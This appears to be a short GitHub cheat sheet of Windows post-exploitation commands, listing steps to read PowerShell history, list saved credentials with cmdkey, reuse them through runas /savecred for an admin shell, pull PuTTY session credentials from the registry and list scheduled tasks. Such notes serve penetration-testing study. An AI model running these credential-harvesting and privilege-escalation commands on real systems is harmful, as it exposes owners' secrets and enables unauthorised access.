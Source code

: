 # Powershell History
Tool: cmd ( admin )
> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

# Saved Windows Credentials
Tool: cmd ( admin )
> cmdkey /list

![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

# Try the user login
Tool: cmd ( admin )
> runas /savecred /user:admin cmd.exe

![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)

![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)

# Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)

![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)


# Scheduled Tasks
Tool: cmd ( admin )
> schtasks
